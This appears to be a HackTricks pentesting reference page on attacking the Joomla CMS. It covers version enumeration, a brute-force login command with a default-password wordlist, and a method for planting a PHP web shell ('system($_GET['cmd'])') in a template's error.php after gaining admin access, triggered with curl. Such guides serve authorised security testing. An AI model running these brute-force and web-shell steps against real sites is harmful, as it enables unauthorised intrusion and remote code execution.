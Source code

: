 # Joomla

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**hacktricks github repo**](https://github.com/carlospolop/hacktricks)**.**

</details>

### Joomla Statistics

Joomla collects some anonymous [usage statistics](https://developer.joomla.org/about/stats.html) such as the breakdown of Joomla, PHP and database versions and server operating systems in use on Joomla installations. This data can be queried via their public [API](https://developer.joomla.org/about/stats/api.html).

```bash
curl -s https://developer.joomla.org/stats/cms_version | python3 -m json.tool

{
    "data": {
        "cms_version": {
            "3.0": 0,
            "3.1": 0,
            "3.10": 6.33,
            "3.2": 0.01,
            "3.3": 0.02,
            "3.4": 0.05,
            "3.5": 12.24,
            "3.6": 22.85,
            "3.7": 7.99,
            "3.8": 17.72,
            "3.9": 27.24,
            "4.0": 3.21,
            "4.1": 1.53,
            "4.2": 0.82,
            "4.3": 0,
            "5.0": 0
        },
        "total": 2951032
    }
}
```

## Enumeration

### Discovery/Footprinting

* Check the **meta**

```bash
curl https://www.joomla.org/ | grep Joomla | grep generator

<meta name="generator" content="Joomla! - Open Source Content Management" />
```

* robots.txt

```
# If the Joomla site is installed within a folder
# eg www.example.com/joomla/ then the robots.txt file
# MUST be moved to the site root
# eg www.example.com/robots.txt
# AND the joomla folder name MUST be prefixed to all of the
# paths.
[...]
```

* README.txt

```
1- What is this?
	* This is a Joomla! installation/upgrade package to version 3.x
	* Joomla! Official site: https://www.joomla.org
	* Joomla! 3.9 version history - https://docs.joomla.org/Special:MyLanguage/Joomla_3.9_version_history
	* Detailed changes in the Changelog: https://github.com/joomla/joomla-cms/commits/staging
```

### Version

* In **/administrator/manifests/files/joomla.xml **_**** you can see the version._
* In **/language/en-GB/en-GB.xml** you can get the version of Joomla.
* In **plugins/system/cache/cache.xml** you can see an approximate version.

### Automatic

```bash
droopescan scan joomla --url http://joomla-site.local/
```

In[ **80,443 - Pentesting Web Methodology is a section about CMS scanners**](./#cms-scanners) that can scan Joomla.

### Brute-Force

You can use this [script](https://github.com/ajnik/joomla-bruteforce) to attempt to brute force the login.

```shell-session
sudo python3 joomla-brute.py -u http://joomla-site.local/ -w /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt -usr admin
 
admin:admin
```

## RCE

If you managed to get **admin credentials** you can **RCE inside of it** by adding a snippet of **PHP code** to gain **RCE**. We can do this by **customizing** a **template**.

1. **Click** on **`Templates`** on the bottom left under `Configuration` to pull up the templates menu.
2. **Click** on a **template** name. Let's choose **`protostar`** under the `Template` column header. This will bring us to the **`Templates: Customise`** page.
3. Finally, you can click on a page to pull up the **page source**. Let's choose the **`error.php`** page. We'll add a **PHP one-liner to gain code execution** as follows:
   1. **`system($_GET['cmd']);`**
4. **Save & Close**
5. `curl -s http://joomla-site.local/templates/protostar/error.php/error.php?cmd=id`

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**hacktricks github repo**](https://github.com/carlospolop/hacktricks)**.**

</details>
